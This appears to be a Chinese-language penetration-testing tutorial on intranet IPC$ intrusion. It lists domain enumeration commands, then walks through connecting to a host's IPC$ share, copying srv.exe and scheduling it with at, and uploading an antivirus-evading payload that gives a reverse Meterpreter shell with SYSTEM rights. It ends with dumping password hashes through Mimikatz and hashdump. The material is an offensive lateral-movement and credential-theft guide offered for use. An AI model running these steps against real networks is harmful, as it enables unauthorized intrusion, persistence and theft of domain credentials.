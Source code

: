 # 内网IPC$入侵

## 域操作相关的命令

1.查看域用户

```
net user/domain
```

2.查看有几个域

```
net view/domain
```

3.查看域内的主机

```
net view/domain: XXX
```

4.查看域里面的组

```
net group/domain
```

5.查看域内所有的主机名

```
net group "domain computers" /domain
```

6.查看域管理员

```
net group "domain admins" /domain
```

7.查看域控制器

```
net group "domain controllers" /domain
```

8.查看企业管理组

```
net group "enterprise admins" /domain
```

9.查看时间服务器

```
nettime/domain
```

## IPC$入侵

IPC入侵，即通过使用系统默认启动的共享获得计算机控制权的入侵，在内网中及其常见。 假设现在有一台IPC$主机：127.0.0.25，输入以下命令。

```
#连接127.0.0.25的IPC$共享：
D:>net use \127.0.0.25\ipc$
#复制srv.exe到目标主机
D:>copy srv.exe \127.0.0.25\ipc$ 
#查时间
D:>net time\127.0.0.25
#用at命令在10点50分启动srv.exe(注意这里设置的时间比主机时间快)
D:>at \127.0.0.25 10:50 srv.exe
```

上述命令中的at就是让计算机在指定的时间做指定事情的命令(例如运行程序)

这里把免杀的Payload上传到PAVMSEP131服务器，然后利用at命令启动Payload，反弹回Meterpreter Shell 将木马复制到目标服务器

![img](https://img-blog.csdnimg.cn/20190107122806779.jpg)

查看系统时间

![img](https://img-blog.csdnimg.cn/20190107122829601.jpg)

使用at命令启动木马

![img](https://img-blog.csdnimg.cn/2019010712285057.jpg)

接着返回handler监听，可以看到反弹成功了，我们获得了PAVMSEP131服务器的Meterpreter Shell 反弹成功

![img](https://img-blog.csdnimg.cn/2019010712291273.jpg)

下面看看PAVMSEP131服务器的信息和现在的权限 查看系统信息

![img](https://img-blog.csdnimg.cn/20190107122934648.jpg)

可以看到有SYSTEM权限，说明既可以使用Mimikatz等工具，也可以输入 run post/windows/gather/hashdump来抓Hash 在用Mimikatz抓Hash前要注意一点：如果服务器安装的是64位操作系统，要把Mimikatz的进程迁移到一个64位的程序进程中，才能查看64位操作系统的密码明文，在32位系统中就没有这个限制。

这里使用Mimikatz抓Hash

上传Mimikatz

![img](https://img-blog.csdnimg.cn/20190107123004795.jpg)

抓取Hash

![img](https://img-blog.csdnimg.cn/20190107123104136.jpg)

查看抓到的域用户的权限

![img](https://img-blog.csdnimg.cn/20190107123127758.jpg)

## 